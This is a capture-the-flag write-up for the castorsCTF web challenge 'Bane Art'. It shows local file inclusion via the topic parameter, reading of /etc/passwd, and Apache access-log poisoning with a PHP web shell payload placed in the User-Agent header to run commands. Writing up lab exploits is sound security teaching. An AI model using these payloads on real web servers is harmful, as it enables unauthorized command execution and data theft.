


**BANE ART** 

**Category:** Web
**Concepts:** lfi, log poisoning, reverse shell

**Problem Statement:**
http://web1.cybercastors.com:14438

**Hints**
None

The page has many categories of ascii art. I went to all of them and one that particularly stood out was 'space', where above Morty's ascii art there was a certain comment:

So, I thought this was the flag and submitted it thinking "wow this was a trash problem". But the flag was incorrect. So started trying 

`http://web1.cybercastors.com:14438/app.php?topic=space.php&secret=castorsCTF{r1cK_N_M0rtY'$_4_L4iF}` as written in that comment, only to waste an hour behing nothing. Apparently this was not only a fake flag, but also a misleading rabbit hole.
So I turned to lfi(which was possible on ?topic=)

PoC: `http://web1.cybercastors.com:14438/app.php?topic=/etc/passwd`

I ran fimap(sorry admins) over this and found out `/var/log/apache2/access.log` was accessible.

I knew what to do next. I popped up burpsuite, poisoned my User-Agent.

PoC: `<?php phpinfo();?>`
Actual poison: `<?php system($_GET['c']);?>`

Now this was extremely difficult with too many people trying to do the same thing and some fucking up the log file and making others wait till the server resets.

But with modified requests such as: `http://web1.cybercastors.com:14438/app.php?topic=/var/log/apache2/access.log&c=ls`, I was able to do rce, but someone would fuck up the log file and I'd have to do it again. During my 69420th attempt of doing so, I found the path in the log file itself. Someone just figured it out and went to it. So lucky me just took it from there.

`/home/falg/flag/test/why/the/hassle/right/flag.txt`

**FLAG:** castorsCTF{w3lc0m3_2_D4_s0urc3_YoUng_Ju4n}

